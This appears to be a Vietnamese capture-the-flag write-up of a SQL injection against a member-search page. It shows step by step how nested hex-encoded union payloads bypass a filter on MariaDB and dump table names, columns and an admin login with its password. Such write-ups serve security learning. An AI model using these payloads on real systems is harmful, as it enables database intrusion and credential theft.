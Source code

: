 ![image](https://github.com/user-attachments/assets/27a2b722-0119-46f0-97d6-d646a83b302f)

:v có thêm chức năng search member

![image](https://github.com/user-attachments/assets/e271743b-3687-4ccd-8e75-03511bc370db)

![image](https://github.com/user-attachments/assets/de41d415-b5d2-41e5-819d-d483d6623fdd)

=> có vẻ như các payload inject đã bị filter rồi :V

Dạo 1 vòng trên google ta tìm được thông tin trên hacktricks

![image](https://github.com/user-attachments/assets/f2103710-0a91-42ed-8d6d-981a690f79f2)

```
' union select login,password from users-- a
' union select 0x2d312720756e696f6e2073656c656374206c6f67696e2c70617373776f72642066726f6d2075736572732d2d2061 -- a
```
=> vector mà ta có thể hướng tới là 2 query lồng nhau ( hash hex query 2 rồi lồng vào query 1 ) :V

Ta thử encode cái payload thành dạng hex

![image](https://github.com/user-attachments/assets/3e13d0d7-e07b-4a43-a8c6-0f712ad27ed0)

![image](https://github.com/user-attachments/assets/1e60ad07-543a-4882-a54b-ebd89647588f)

:V vẫn lỗi nhưng mà có thêm thông tin là dbs dùng MariaDB và cũng chứng tỏ encode sang mã hex đã thành công inject được

![image](https://github.com/user-attachments/assets/f8c715ad-b2eb-4db0-96b0-4cf5f175ee9a)

![image](https://github.com/user-attachments/assets/debeda2b-9736-40d1-a285-e8ff7f97a32d)

=> có 2 cột 

```
   'union select 'union select 1,2-- - -- -
=> 'union select  0x27756e696f6e2073656c65637420312c322d2d202d-- -
```
![image](https://github.com/user-attachments/assets/0a52b422-e396-4c1e-ae96-90a8e0a0bde6)

=> chỉ cột thứ 2 có thể inject

Inject MariaDB khá giống với MySQL nên ta có thể dùng cheatsheet của MySQL luôn. 
Lại vào PayloadsAllTheThings

```
   'union select 'union select NULL,@@version-- - -- -
=> 'union select 0x27756e696f6e2073656c656374204e554c4c2c404076657273696f6e2d2d202d-- -
```
![image](https://github.com/user-attachments/assets/4298ce31-78cb-4333-8a1f-bc1d937d7e16)

=> version
```
   'union select 'union select NULL,table_name from information_schema.tables where table_schema=database()-- - -- -
=> 'union select 0x27756e696f6e2073656c656374204e554c4c2c7461626c655f6e616d652066726f6d20696e666f726d6174696f6e5f736368656d612e7461626c6573207768657265207461626c655f736368656d613d646174616261736528292d2d202d-- -
```
![image](https://github.com/user-attachments/assets/3886223b-e8d1-46f8-969c-874e637ce01a)

=> bảng users

```
 'union select 'union select NULL, group_concat(column_name) from information_schema.columns where table_name='users'-- - -- -
=> 'union select 0x27756e696f6e2073656c656374204e554c4c2c2067726f75705f636f6e63617428636f6c756d6e5f6e616d65292066726f6d20696e666f726d6174696f6e5f736368656d612e636f6c756d6e73207768657265207461626c655f6e616d653d277573657273272d2d202d-- -
```
![image](https://github.com/user-attachments/assets/c4d9e560-8d8e-4b00-9b86-6c48141560cb)

=> 4 cột là id, login, password, email.

```
'union select 'union select NULL, group_concat(login,'~', password) from users-- - -- -
=> 'union select 0x27756e696f6e2073656c656374204e554c4c2c2067726f75705f636f6e636174286c6f67696e2c277e272c2070617373776f7264292066726f6d2075736572732d2d202d-- -
```
![image](https://github.com/user-attachments/assets/5832a7e2-7a1e-4644-b9c2-d56e3a3b97e3)

=> admin~qs89QdAs9A
